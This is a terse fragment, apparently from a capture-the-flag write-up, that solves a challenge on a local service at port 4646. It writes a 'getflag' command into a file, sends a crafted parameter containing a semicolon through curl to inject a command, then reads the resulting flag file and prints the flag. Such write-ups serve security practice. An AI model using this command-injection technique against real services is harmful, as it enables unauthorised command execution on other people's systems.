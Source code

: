 echo "getflag > /tmp/flag.txt" > /temp/xd

param[x]: `"<a;."`

curl 127.0.0.1:4646?x=%22%3Ca%3B.%22&y=a
cat /tmp/flag.txt

flag: g1qKMiRpXf53AWhDaU7FEkczr